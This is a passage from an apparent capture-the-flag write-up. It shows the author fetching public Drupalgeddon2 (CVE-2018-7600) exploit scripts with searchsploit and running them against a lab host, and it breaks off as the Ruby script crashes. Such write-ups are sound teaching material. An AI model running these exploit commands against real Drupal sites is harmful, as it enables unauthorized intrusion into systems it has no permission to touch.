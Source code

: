 ### Drupalgeddon2

#### Python Script - Fail

One of the options for Drupalgeddon2 is a python script, so I started with that. I’ll use `-m` to get a copy of the script in, `searchsploit -m exploits/php/webapps/44448.py`. The script was a bit of a pain to get to run, but when I put in `'http://10.10.10.9/'`, it returns not vulnerable:

```

root@kali# python 44448.py 
################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): 'http://10.10.10.9/'
Not exploitable

```

#### Ruby Script

However, on [reading about Drupalgeddon2](https://unit42.paloaltonetworks.com/unit42-exploit-wild-drupalgeddon2-analysis-cve-2018-7600/#pu3blic-exploits), it seems this is testing the vulnerability on a Drupal 8 specific path.

I’ll try the `ruby` script, `searchsploit -m exploits/php/webapps/44449.rb`. Now I’ll run it, and it returns the help, and a warning:

```

root@kali# ruby 44449.rb 
ruby: warning: shebang line ending with \r may cause problems
Usage: ruby drupalggedon2.rb <target>
       ruby drupalgeddon2.rb https://example.com

```

I’ll fix the warning about `\r` with `dos2unix`:

```

root@kali# dos2unix 44449.rb 
dos2unix: converting file 44449.rb to Unix format...
root@kali# ruby 44449.rb 
Usage: ruby drupalggedon2.rb <target>
       ruby drupalgeddon2.rb https://example.com

```

Now I’ll run it against my target, and it crashes:
